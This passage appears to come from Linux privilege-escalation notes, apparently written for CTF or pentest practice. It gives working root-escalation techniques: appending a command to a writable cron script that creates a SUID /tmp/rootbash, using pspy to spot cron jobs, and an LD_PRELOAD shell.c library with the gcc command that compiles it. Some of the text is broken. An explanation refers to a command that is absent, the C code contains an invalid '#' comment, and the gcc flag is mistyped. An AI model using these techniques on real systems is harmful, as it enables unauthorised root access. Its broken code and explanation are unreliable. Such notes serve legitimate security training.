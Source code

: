 Explanation:
The first command means that you display progress messages every 1 record.
And then, when you reach this checkpoint, run this command.

##### Cron File overwrite (script files)

It is simple.
Check if you can overwrite a file and if you want to use a reverse shell.
If so, check if you have nc, socat or bash.
Then you can do like this:

```
echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" >> /full/path/to/binary.sh
```

##### Check for some cronjobs out of crontab

[pspy](https://github.com/DominicBreuker/pspy)
Just run it!
```
./pspy64
```

Wait some time and the you will see something going on.

#### Password Authentication

### Insecure System Components

#### sudo -l

##### LD_PRELOAD
check if there is a env_keep+=LD_PRELOAD, then we can execute our own library with sudo.

shell.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
  unsetenv("LD_PRELOAD");
  # this indicates root user!
  setgid(0);
  setuid(0);
  system("/bin/bash");
}

```
Save this file or upload it to machine

Compiling:
```
gcc -fPIC -share -o shell.so shell.c -nostartfiles
```
